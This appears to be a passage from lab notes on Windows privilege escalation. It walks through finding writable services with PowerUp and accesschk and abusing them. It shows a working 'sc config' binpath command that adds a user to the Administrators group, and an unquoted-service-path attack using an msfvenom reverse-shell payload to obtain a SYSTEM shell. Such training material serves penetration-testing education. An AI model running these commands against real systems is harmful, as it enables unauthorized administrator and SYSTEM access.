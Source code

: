 ### Service Permissions

#### binPath

Binary path, or `binpath`, this is another check in PowerUp.ps1.  You would run it the same way here.

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

That will be shown in the following output

![pic21](Images/pic21.png)

The big part here is that the fact that we can restart it is true.

You can also use access check

`accesschk64.exe -uwcv Everyone *`

And if you find anything interesting, dig further with access check as well

`accesschk64.exe -uwcv <servicename>`   - switch out the servicename for the name of the service you want more info on.
&ensp;-u  -This is used to suppress errors, showing only things that come back with only the positive findings.
&ensp;-w  - Only show items that have write access.  Things that we can modify.
&ensp;-c  - Says to display the service name for any found services
&ensp;-v  - is out good old buddy, verbose :)
&ensp;&ensp;The `Everyone *` runs that check on the EVERYONE group against all services (`*`)

![pic22](Images/pic22.png)

Here, we can see that everyone has RW access on this service to change the config.

Now we're going to query the service, change a settting, and drop ourselves (`user`) into the Admins group.

```
sc query <servicename>
sc config <servicename> binpath= "net localgroup administrators user /add"
sc start <servicename>
```

![pic23](Images/pic23.png)

Then when we start the service, here daclsvc, we get the following change.

![pic24](Images/pic24.png)

Here, we notice that the first time we check the Admin group, user is not there.  The second time we check after starting the service, user is in the Admin group.  You'll also notice that you get an error when trying to start the service.  That is because the filepath that was there before was swapped out to our command so the exe was not there to start the service.

#### Unquoted Service Path

What you're looking for here is a service path that is not in quotes and has a space in it.  Windows will try to run a file if the service path is not quoted and there is a space.  For example...

C:\Windows\Start Menu\Programs  - Windows will try to run C:\Windows\Start.exe before it moves on to the Start Menu and so on.  If you can drop a file named start.exe in the Windows folder, windows will run it if the file path is not in quotes in the service path field.

![pic25](Images/pic25.png)

In real life we would likely report all of these.  Here we're just focused on the `unquotedsvc`.

Here, we're going to create a payload with msfvenom to connect to a netcat session.

The only change is we change the payload from  
&ensp;`windows/meterpreter/reverse_tcp`  
&ensp;to  
&ensp;`windows/shell_reverse_tcp`  - actually had to try a couple different payloads here to get this to work.  But this one finally did it.  

Keep all the rest of the options the same and use netcat instead of metasploit and start up your nc listener and then start the service on the victim machine.

![pic26](Images/pic26.png)

And now we have a NT AUTHORITY\SYSTEM shell :)

